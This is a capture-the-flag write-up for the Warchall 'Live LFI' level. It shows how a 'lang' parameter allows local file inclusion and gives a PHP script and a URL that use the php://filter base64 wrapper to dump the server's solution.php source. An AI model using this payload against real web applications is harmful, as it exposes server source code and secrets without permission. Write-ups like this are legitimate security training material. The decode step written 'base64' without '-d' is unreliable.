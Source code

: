 # Level 14 :
---
# _Warchall : Live LFI_
---
---
In this challenge of the LFI (Local File Inclusion), we are redirected to this link of LFI challenge web site : https://lfi.warchall.net/ .

First thing to do is to check the vulnerability of that web page. We remarque that if we click on the flag we see in the web site, we see that the propriety of the ling changes such as :
-   ```https://lfi.warchall.net/index.php?lang=en```
-   ```https://lfi.warchall.net/index.php?lang=de```

So I tryed to see what else can I put there so I tryed lot of things like    ```https://lfi.warchall.net/index.php?lang=solution``` , ```https://lfi.warchall.net/index.php?lang=solution.php```, etc
But something happen when I tryed this one : ```https://lfi.warchall.net/index.php?lang=solution.php```

There is a message there that says :``` "_teh falg si naer!
the flag is near!_ and "_fatal error: Uncaught TypeError: Cannot access offset of type string on string in /home/level/14_live_fi/www/index.php:12 Stack trace: #0 {main} thrown in /home/level/14_live_fi/www/index.php on line 12
Fatal error: Uncaught GWF_Exception: thrown in /opt/php/gwf3/core/inc/util/GWF_Log.php on line 249"_```

SO I did some research on how we can find the solution especially on Local File Inclusion and document myself on this website : https://www.php.net/manual/fr/filters.convert.php. Then got an idea how to solve it.

The purpose is to use a php wrapper on the link of the challenge to get the solution
First thing first is to write the php codethat you can put in your ```~```or you can also use ```/tmp```. In my case I used ```/tmp``` and redirect the solution in a file named ```solution_decoded.php``` :

```sh
<?php
$targetURL = 'http://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php';
$base64Content = file_get_contents($targetURL);
$decodedContent = base64_decode($base64Content);
file_put_contents('/tmp/solution_decoded.php', $decodedContent);
?>
```
This code consists on getting the url of the challenge which is ```https://lfi.warchall.net/index.php?lang=```use php wrapper, converting it on base64. Get the source code and decode it through the php code and look at the file ```solution_decode.php```

Now after creating that file, for example we name it ```lfi.php```, we should lunch it (execute it);
```sh
yourUsername@warchall:~$ php fli.php
```
Then look at your ```solution_decoded.php```:
```sh
yourUsername@warchall:~$ cat /tmp/solution_decoded.php
```

There you go! -----------


Or you can also immediatelly use the url to get the solution without writing a php code on warchall box just using this url below :
```sh
view-source:https://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php
```
and coping the first text you see on the source code of this page and write it on a file named for example ```level14_solution.txt``` then decode :
```sh
yourUsername@warchall:~$ base64 level14_solution.txt
```
There you go!



